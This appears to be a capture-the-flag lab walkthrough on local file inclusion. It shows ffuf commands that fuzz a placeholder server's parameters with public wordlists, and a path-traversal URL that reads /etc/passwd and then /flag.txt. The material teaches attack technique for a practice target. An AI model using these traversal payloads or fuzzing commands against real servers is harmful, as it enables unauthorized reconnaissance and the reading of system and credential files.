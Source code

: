 # Automated Scanning

#### Fuzz the web application for exposed parameters, then try to exploit it with one of the LFI wordlists to read /flag.txt

**Step 1** - Fuzz parameters:

* Use the [burp-parameter-names.txt](https://github.com/kafkaesqu3/fuzzing/blob/master/parameters/burp-parameter-names.txt) wordlist with the following command:
  * {% code overflow="wrap" %}
    ```bash
    ffuf -w burp-parameter-names.txt:FUZZ -u 'http://SERVER_IP:SERVER_PORT/index.php?FUZZ' -fs 2309
    ```
    {% endcode %}

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Fuzz LFI payloads:

* Use the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist:
  * {% code overflow="wrap" %}
    ```bash
    ffuf -w LFI-Jhaddix.txt:FUZZ -u 'http://SERVER_IP:SERVER_PORT/index.php?view=FUZZ' -fs 1935
    ```
    {% endcode %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Test one of the discovered payloads:

* Append the payload to the application URL:
  * {% code overflow="wrap" %}
    ```
    http://SERVER_IP:SERVER_PORT/index.php?view=../../../../../../../../../../../../../../../../../../../../../../etc/passwd
    ```
    {% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

**Step 4** - Get the flag:

* Now simply substitute **/etc/passwd** for **/flag.txt**
  * `../../../../../../../../../../../../../../../../../../../../../../flag.txt`

<figure><img src="../../../.gitbook/assets/image (298).png" alt=""><figcaption></figcaption></figure>

And flag found!

